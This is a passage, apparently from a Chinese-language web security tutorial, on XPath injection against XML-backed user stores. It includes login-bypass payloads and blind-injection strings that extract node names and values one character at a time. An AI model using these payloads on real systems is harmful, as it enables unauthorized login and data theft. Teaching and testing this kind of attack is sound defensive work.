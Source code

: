 ```
&lt;firstname&gt;Darien&lt;/firstname&gt;
&lt;lastname&gt;Heap&lt;/lastname&gt;
&lt;loginID&gt;drano&lt;/loginID&gt; 
&lt;password&gt;2mne8s&lt;/password&gt; 
&lt;/user&gt; 

&lt;/users&gt;
```

其查询语句，也类似于sql语句

```
//users/user[loginID/text()=’abc’ and password/text()=’test123’]
```

所以相同的，我们可以用类似sql注入的方式来闭合引号例如：

```
loginID=' or 1=1 or ''='
password=' or 1=1 or ''='
```

可以得到

```
//users/user[loginID/text()='' or 1=1 or ''='' and password/text()='' or 1=1 or ''='']
```

那么查询语句将返回 true

### <a class="reference-link" name="Xpath%E7%9B%B2%E6%B3%A8"></a>Xpath盲注

方法类似于Sql注入，只是函数可能使用不同<br>
提取当前节点的父节点的名称：

```
' or substring(loginID(parent::*[position()=1]),1,1)='a
' or substring(loginID(parent::*[position()=1]),1,1)='b
' or substring(loginID(parent::*[position()=1]),1,1)='c
....
' or substring(loginID(parent::*[position()=1]),2,1)='a
' or substring(loginID(parent::*[position()=1]),2,1)='b
....
```

如此循环可得到一个完整的父节点名称<br>
确定address节点的名称后，攻击者就可以轮流攻击它的每个子节点，提取出它们的名称与值。（通过索引）

```
'or substring(//user[1]/*[2]/text(),1,1)='a' or 'a'='a
'or substring(//user[1]/*[2]/text(),1,1)='b' or 'a'='a
'or substring(//user[1]/*[2]/text(),1,1)='c' or 'a'='a
.....
```

同时，既然将xml用作数据库，有可能存在泄漏问题,例如
